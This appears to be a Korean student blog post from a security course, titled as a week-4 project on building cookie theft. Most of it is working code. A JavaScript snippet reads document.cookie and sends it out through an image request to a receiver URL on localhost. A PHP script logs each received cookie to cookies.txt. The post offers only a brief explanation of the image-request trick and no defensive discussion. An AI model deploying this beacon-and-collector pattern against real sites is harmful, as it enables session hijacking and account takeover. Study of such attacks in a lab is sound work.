 ```yaml
---
layout: single
title:  "4주차 쿠키 탈취 만들기"
categories: project
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1.쿠키 탈취 만들기</span>

<br>

http상태 200 으로 양호하고, user = normaltic 이라는 쿠키를 담고 있습니다. 이 쿠키를 탈취해봅시다.

![image-20240514195031752](/images/2024-05-14-Project6/image-20240514195031752.png)

## <span style="background:#696969; color:#ffffff">1.1 Cookie Hijacking.html</span>

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Security Test Page</title>
</head>
<body>
    <h1>Cookie Hijacking 테스트 하기</h1>
    <script src="Cookie Hijacking.js"></script>
</body>
</html>
```



## <span style="background:#696969; color:#ffffff">1.2 Cookie Hijacking.js</span>

<br>

```javascript
window.onload = function() {			# http요청이 완료되었을때, user=normaltic이라는 쿠키를 설정하고, 서버로 보내기
    document.cookie = "user=normaltic; path=/";
    sendDataToServer();  
}

function sendDataToServer() {			# 탈취할 url중 쿠키는 인코딩하여,이미지 파일을 불러옵니다.
    const cookieData = document.cookie;
    const attackURL = "http://localhost:8080/receive.php?cookie=";
    new Image().src = attackURL + encodeURIComponent(cookieData);
}
```

이미지 파일을 불러오는 이유 :  사실 이미지 파일이 없어서 이미지를 불러오는 건 중요한 게 아닙니다. 하지만 url로 요청하게 되면 동시에 get 방식으로 서버에 쿠키 정보를 넘겨주는 역할을 수행하기 때문에 이미지 파일을 불러오는 것 입니다.

## <span style="background:#696969; color:#ffffff">1.3 receive.php</span>

<br>

```php
<?php					# 쿠기의 정보를 cookies.txt 에 저장하기.
$cookie = $_GET['cookie'];
file_put_contents('cookies.txt', $cookie . "\n", FILE_APPEND);
					#(파일명, 쿠키정보 .줄바꿈 , 파일 뒤에 정보 계속 추가하기 )
```

![image-20240514203739235](/images/2024-05-14-Project6/image-20240514203739235.png)
